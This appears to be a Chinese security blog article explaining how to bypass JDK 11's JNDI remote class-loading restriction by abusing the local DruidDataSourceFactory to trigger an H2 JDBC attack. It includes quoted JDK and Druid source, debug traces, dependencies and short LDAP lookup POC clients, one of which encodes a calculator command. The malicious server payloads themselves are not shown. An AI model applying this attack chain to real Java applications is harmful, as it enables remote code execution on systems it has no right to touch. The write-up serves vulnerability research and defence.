# jndi +DruidDataSourceFactory 实现高版本绕过-先知社区

> **来源**: https://xz.aliyun.com/news/18805  
> **文章ID**: 18805

---

# jndi +DruidDataSourceFactory 实现高版本绕过

## 前言

在 JNDI 利用的发展历程里，**高版本 JDK 一直是横在攻击者面前的一道门槛**。从最初的 RMI 远程类加载，到后来的 LDAP reference 工厂调用，很多经典打法都随着 `com.sun.jndi.ldap.object.trustURLCodebase` 默认关闭而逐渐失效。尤其是在 JDK 11 之后，远程工厂类加载被彻底限制，看似彻底堵死了“远程代码注入”的思路。

但是，JNDI 的并不仅仅依赖远程加载。其核心逻辑在于：**当遇到 Reference 对象时，会优先尝试调用本地 classpath 下的工厂类（ObjectFactory）去完成解析**。这意味着，只要目标环境中存在合适的工厂类，就有机会把攻击链重新拉起来，哪怕远程 codebase 完全不可用。

在实际应用中，大量中间件、连接池、第三方组件都会把自己的工厂类暴露在 classpath 中。本篇要分析的正是**DruidDataSourceFactory**。

DruidDataSourceFactory 的职责是解析 `Reference` 中的参数，并通过内部的 `createDataSourceInternal` 方法创建数据源对象。这个过程会自动解析 JDBC URL、驱动名等配置，从而触发数据库连接初始化。如果我们能够在 JNDI Reference 中构造恶意配置，就能借助 Druid 的工厂逻辑，把利用链引导到 JDBC → 驱动加载 → 恶意 SQL/JDBC 攻击，成功在 JDK 11 等高版本环境下绕过限制

## 环境搭建

只需要加入我们的依赖就 ok 了

```
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>druid-spring-boot-starter</artifactId>
    <version>1.2.8</version>
</dependency>

```

## 利用 DruidDataSourceFactory 绕过

### JDK11 测试

这里我们先生成一个普通的 payload 进行测试

```
package JNDI_LDAP;

import javax.naming.InitialContext;
import javax.naming.NamingException;

public class LDAP_Client {
    public static void main(String[] args) throws NamingException {
        //指定RMI服务资源的标识
        String jndi_uri = "ldap://127.0.0.1:1389/Basic/Command/Y2FsYw==";
        //构建jndi上下文环境
        InitialContext initialContext = new InitialContext();
        //查找标识关联的RMI服务
        initialContext.lookup(jndi_uri);
    }
}
```

首先是在低版本，我们运行

  
弹出计算器

但是在 jdk11 下并不会，我们可以调试分析一下

```
getObjectInstance:188, DirectoryManager (javax.naming.spi)
c_lookup:1114, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:220, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:409, InitialContext (javax.naming)
main:13, JNDI
```

```
public static Object
    getObjectInstance(Object refInfo, Name name, Context nameCtx,
                      Hashtable<?,?> environment, Attributes attrs)
    throws Exception {

        ObjectFactory factory;

        ObjectFactoryBuilder builder = getObjectFactoryBuilder();
        if (builder != null) {
            // builder must return non-null factory
            factory = builder.createObjectFactory(refInfo, environment);
            if (factory instanceof DirObjectFactory) {
                return ((DirObjectFactory)factory).getObjectInstance(
                    refInfo, name, nameCtx, environment, attrs);
            } else {
                return factory.getObjectInstance(refInfo, name, nameCtx,
                    environment);
            }
        }

        // use reference if possible
        Reference ref = null;
        if (refInfo instanceof Reference) {
            ref = (Reference) refInfo;
        } else if (refInfo instanceof Referenceable) {
            ref = ((Referenceable)(refInfo)).getReference();
        }

        Object answer;

        if (ref != null) {
            String f = ref.getFactoryClassName();
            if (f != null) {
                // if reference identifies a factory, use exclusively

                factory = getObjectFactoryFromReference(ref, f);
                if (factory instanceof DirObjectFactory) {
                    return ((DirObjectFactory)factory).getObjectInstance(
                        ref, name, nameCtx, environment, attrs);
                } else if (factory != null) {
                    return factory.getObjectInstance(ref, name, nameCtx,
                                                     environment);
                }
                // No factory found, so return original refInfo.
                // Will reach this point if factory class is not in
                // class path and reference does not contain a URL for it
                return refInfo;

            } else {
                // if reference has no factory, check for addresses
                // containing URLs
                // ignore name & attrs params; not used in URL factory

                answer = processURLAddrs(ref, name, nameCtx, environment);
                if (answer != null) {
                    return answer;
                }
            }
        }

        // try using any specified factories
        answer = createObjectFromFactories(refInfo, name, nameCtx,
                                           environment, attrs);
        return (answer != null) ? answer : refInfo;
}
```

会在这里去加载我们的工厂类  


```
static ObjectFactory getObjectFactoryFromReference(
    Reference ref, String factoryName)
    throws IllegalAccessException,
    InstantiationException,
    MalformedURLException {
    Class<?> clas = null;

    // Try to use current class loader
    try {
        clas = helper.loadClassWithoutInit(factoryName);
        // Validate factory's class with the objects factory serial filter
        if (!ObjectFactoriesFilter.canInstantiateObjectsFactory(clas)) {
            return null;
        }
    } catch (ClassNotFoundException e) {
        // ignore and continue
        // e.printStackTrace();
    }
    // All other exceptions are passed up.

    // Not in class path; try to use codebase
    String codebase;
    if (clas == null &&
            (codebase = ref.getFactoryClassLocation()) != null) {
        try {
            clas = helper.loadClass(factoryName, codebase);
            // Validate factory's class with the objects factory serial filter
            if (clas == null ||
                !ObjectFactoriesFilter.canInstantiateObjectsFactory(clas)) {
                return null;
            }
        } catch (ClassNotFoundException e) {
        }
    }

    @SuppressWarnings("deprecation") // Class.newInstance
    ObjectFactory result = (clas != null) ? (ObjectFactory) clas.newInstance() : null;
    return result;
}
```

先从本地加载，如果没有就从 codebase 中的远程地址去加载  


跟进 loadClass

```
public Class<?> loadClass(String className, String codebase)
        throws ClassNotFoundException, MalformedURLException {
    if (TRUST_URL_CODE_BASE) {
        ClassLoader parent = getContextClassLoader();
        ClassLoader cl
                = URLClassLoader.newInstance(getUrlArray(codebase), parent);
        return loadClass(className, cl);
    } else {
        return null;
    }
}
```

加载的时候会先判断 TRUST\_URL\_CODE\_BASE

但是在高版本的 jdk 默认为 false 了





导致我们不能够再加载远程类了

### 利用本地工厂绕过

现在的思路就是利用本地的工厂类去绕过了

首先看到本次的工厂类 DruidDataSourceFactory

它的 getObjectInstance 方法我们可以如何利用呢？

```
public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
    if (obj != null && obj instanceof Reference) {
        Reference ref = (Reference)obj;
        if (!"javax.sql.DataSource".equals(ref.getClassName()) && !"com.alibaba.druid.pool.DruidDataSource".equals(ref.getClassName())) {
            return null;
        } else {
            Properties properties = new Properties();

            for(int i = 0; i < ALL_PROPERTIES.length; ++i) {
                String propertyName = ALL_PROPERTIES[i];
                RefAddr ra = ref.get(propertyName);
                if (ra != null) {
                    String propertyValue = ra.getContent().toString();
                    properties.setProperty(propertyName, propertyValue);
                }
            }

            return this.createDataSourceInternal(properties);
        }
    } else {
        return null;
    }
}
```

在过程中调用了 createDataSourceInternal 方法，而且接收一些 properties

我们边调试边分析

```


import javax.naming.InitialContext;
import javax.naming.NamingException;

public class JNDI {
    public static void main(String[] args) throws NamingException {
        //指定RMI服务资源的标识
        String jndi_uri = "ldap://127.0.0.1:50389/c46562";
        //构建jndi上下文环境
        InitialContext initialContext = new InitialContext();
        //查找标识关联的RMI服务
        initialContext.lookup(jndi_uri);
    }
}
```

远程 LDAP 服务使用工具 即可

再次进入到 getObjectInstance:160, DirectoryManager (javax.naming.spi)



再次进入到加载我们的工厂类的逻辑

```
static ObjectFactory getObjectFactoryFromReference(
    Reference ref, String factoryName)
    throws IllegalAccessException,
    InstantiationException,
    MalformedURLException {
    Class<?> clas = null;

    // Try to use current class loader
    try {
        clas = helper.loadClassWithoutInit(factoryName);
        // Validate factory's class with the objects factory serial filter
        if (!ObjectFactoriesFilter.canInstantiateObjectsFactory(clas)) {
            return null;
        }
    } catch (ClassNotFoundException e) {
        // ignore and continue
        // e.printStackTrace();
    }
    // All other exceptions are passed up.

    // Not in class path; try to use codebase
    String codebase;
    if (clas == null &&
            (codebase = ref.getFactoryClassLocation()) != null) {
        try {
            clas = helper.loadClass(factoryName, codebase);
            // Validate factory's class with the objects factory serial filter
            if (clas == null ||
                !ObjectFactoriesFilter.canInstantiateObjectsFactory(clas)) {
                return null;
            }
        } catch (ClassNotFoundException e) {
        }
    }

    @SuppressWarnings("deprecation") // Class.newInstance
    ObjectFactory result = (clas != null) ? (ObjectFactory) clas.newInstance() : null;
    return result;
}
```

在本地的时候就会成功加载，不会再去远程请求调用  


然后就会来到本地的 getObjectInstance 方法

```
public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
    if (obj != null && obj instanceof Reference) {
        Reference ref = (Reference)obj;
        if (!"javax.sql.DataSource".equals(ref.getClassName()) && !"com.alibaba.druid.pool.DruidDataSource".equals(ref.getClassName())) {
            return null;
        } else {
            Properties properties = new Properties();

            for(int i = 0; i < ALL_PROPERTIES.length; ++i) {
                String propertyName = ALL_PROPERTIES[i];
                RefAddr ra = ref.get(propertyName);
                if (ra != null) {
                    String propertyValue = ra.getContent().toString();
                    properties.setProperty(propertyName, propertyValue);
                }
            }

            return this.createDataSourceInternal(properties);
        }
    } else {
        return null;
    }
}
```

这里的 createDataSourceInternal 可以进行 JDBC 的攻击，不过需要我们添加一个数据库的依赖

```
<dependency>
    <groupId>com.h2database</groupId>
    <artifactId>h2</artifactId>
    <version>2.3.232</version>
</dependency>

```



然后使用工具生成 h2 数据库的工具服务



在 config 方法中解析各种配置



最后调用 init 初始化连接造成了 JDBC 的攻击

最后 POC

```


import javax.naming.InitialContext;
import javax.naming.NamingException;

public class JNDI {
    public static void main(String[] args) throws NamingException {
        //指定RMI服务资源的标识
        String jndi_uri = "ldap://127.0.0.1:50389/267a78";
        //构建jndi上下文环境
        InitialContext initialContext = new InitialContext();
        //查找标识关联的RMI服务
        initialContext.lookup(jndi_uri);
    }
}
```


